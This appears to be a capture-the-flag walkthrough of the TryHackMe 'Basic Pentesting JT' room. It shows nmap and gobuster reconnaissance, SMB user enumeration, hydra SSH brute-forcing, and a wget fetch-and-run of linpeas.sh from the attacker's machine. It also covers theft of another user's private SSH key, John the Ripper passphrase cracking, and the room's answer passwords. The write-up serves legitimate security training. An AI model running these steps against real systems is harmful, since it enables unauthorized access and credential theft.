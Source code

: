 # Basic Pentesting: Unraveling the Machine - A TryHackMe Walkthrough

This write-up documents the steps taken to successfully complete the [Basic Pentesting JT TryHackMe room](https://tryhackme.com/room/basicpentestingjt). We'll cover everything from initial enumeration to privilege escalation, detailing the tools and techniques used.

 ## Task 1: Web App Testing and Privilege Escalation  
## 1. Setting the Stage: Deploying and Connecting
*(No answer needed here, as this is the initial setup phase. With the machine deployed and our network connected, we're ready to dive in!)*
   
## 2. Initial Reconnaissance: Uncovering Exposed Services
   Our first move was to understand what services the target machine (`10.10.236.69`) was running. We used `nmap` for a thorough port and service scan:  
   ```bash 
   nmap -sS -sC -A -p- -T5 10.10.236.69 | tee nmap-enum
  ```
   ![Screenshot 2025-06-02 192004](https://github.com/user-attachments/assets/0e49b99c-592d-4896-8035-b05887fe2a40)  
   - This comprehensive scan quickly revealed several interesting open ports:  
   - 22 (SSH): A standard remote access service.  
   - 80 (HTTP): A web server, ripe for investigation.  
   - 139 and 445 (SMB): Indicating potential Windows shares.  
   - 8009 (AJP): Likely a Tomcat AJP connector, often paired with Apache.  
   - 8080 (HTTP): Another HTTP service, commonly a default Tomcat port.  

## 3. What is the name of the hidden directory on the web server (enter name without /)?  
   With port 80 (HTTP) open, our attention turned to the web server. We used gobuster to aggressively search for hidden directories that might not be publicly linked.  
   ```bash 
   gobuster dir -u http://10.10.236.69/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -o gobuster-bruteforce
   ``` 
   ![Screenshot 2025-06-02 192530](https://github.com/user-attachments/assets/455e6c9f-5473-44c7-a322-737c30d2d7a5)  
   The scan quickly hit gold, revealing a significant directory: development  

## 4. Unmasking Users: Brute-Forcing Credentials  
   *(This stage encompasses the next few steps where we identify usernames and passwords.)*  

## 5. Identifying Potential Usernames  
   Before we could try to log in, we needed valid usernames. We leveraged `enum4linux` to enumerate SMB shares and identify system users:  
   ```bash 
   enum4linux -a 10.10.236.69 | tee enum4linux-out
   ```  
   ![Screenshot 2025-06-02 192958](https://github.com/user-attachments/assets/24886eed-ced9-482f-b711-5442605c4785)  
   This enumeration provided two crucial usernames: jan and kay.  
   
## 6. Cracking the Password for SSH  
   With the username `jan` in hand, our next logical step was to attempt an SSH login. We used `hydra` to brute-force the password against the SSH service, combining a list of common users with a robust password list.  
   ```bash
   hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.236.69 -t 4
   ```
   ![Screenshot 2025-06-02 194006](https://github.com/user-attachments/assets/e50d74af-8af7-427b-9d51-48791dc50737)  
   Success! `hydra` found the password for `jan`: armando

## 7. Gaining Initial Access: The SSH Gateway  
   With jan's credentials (jan:armando), we could now establish our first foothold on the server.  
   ```bash 
   ssh jan@10.10.236.69
   ```
   ![Screenshot 2025-06-02 194300](https://github.com/user-attachments/assets/6d9b31c2-2d07-4582-b7ef-982476f42e49)  
   The service we used to access the server was **SSH**.

## 8. Post-Exploitation: Hunting for Privilege Escalation Vectors  
   Once inside as `jan`, our next mission was to find a way to elevate our privileges. `linpeas.sh` is an excellent script for automatically identifying potential escalation paths.  
   
   First, we needed to transfer `linpeas.sh` to the target machine. We set up a simple HTTP server on our local attacking machine:  
   ```bash 
   On my local machine:  
   python3 -m http.server 8000
   ```
  Then, from the target machine, we downloaded and executed `linpeas.sh`:
  ```bash
   On the target machine (as jan):  
   wget http://10.50.46.117:8000/linpeas.sh  
   chmod +x linpeas.sh  
   ./linpeas.sh
   ```
   ![Screenshot 2025-06-02 201123](https://github.com/user-attachments/assets/48c774f9-26b8-4684-8013-a8acdcc52098)  
   `linpeas.sh` ran its checks and, importantly, highlighted information about another user on the system: kay.  

## 9. Discovering Another User  
   As revealed by `linpeas.sh`, the other user found on the system is: kay  

## 10. Privilege Escalation: A Key to Kay's Kingdom  
  Finding the `kay` user was a significant lead! A quick check of `/home/kay/.ssh/` revealed a private SSH key (`id_rsa`). This was our golden ticket for privilege escalation to `kay`'s account.  
  1. Transferring the Key: We began by securely copying `kay`'s private key to our local machine:  
  ```bash
    scp jan@10.10.236.69:/home/kay/.ssh/id_rsa  
  ```
  2. **Setting Permissions**: SSH keys require strict permissions to be usable:  
  ```bash
    chmod 600 id_rsa
  ```
  3. Attempting SSH Login: We tried to log in as `kay` using the transferred key:  
  ```bash
    ssh -i id_rsa kay@10.10.236.69
  ```
  A minor setback: the key was **passphrase protected**.  
  
  4. **Cracking the Passphrase**: No problem! We used `ssh2john.py` to convert the key into a hash, and then `John the Ripper` with the `rockyou.txt` wordlist to crack the passphrase.  
  ```bash
    python3 /opt/john/ssh2john.py id_rsa > id_rsa.hash  
    john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```
  ![Screenshot 2025-06-02 202337](https://github.com/user-attachments/assets/5120b8ca-6842-4578-8608-89e8f99ee753)  
    `John the Ripper` quickly revealed the passphrase: **beeswax** 
    
  5. **Final Login as Kay**: With the passphrase in hand, we could finally connect to `kay`'s account:  
  ```bash
    ssh -i id_rsa kay@10.10.236.69
  ```
  Once authenticated as kay, we listed the files in the home directory and discovered pass.bak:
  ![Screenshot 2025-06-02 202853](https://github.com/user-attachments/assets/23b4ea14-4593-4574-9170-0998f0c86013)  
  ```bash
    ls -la  
    cat pass.bak
  ```
  The content of pass.bak was:  
  `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`  
  
  This concludes the walkthrough for the Basic Pentesting JT room. We successfully enumerated services, found hidden directories, brute-forced user credentials, gained initial SSH access, and finally, escalated privileges to another user using a compromised SSH key.
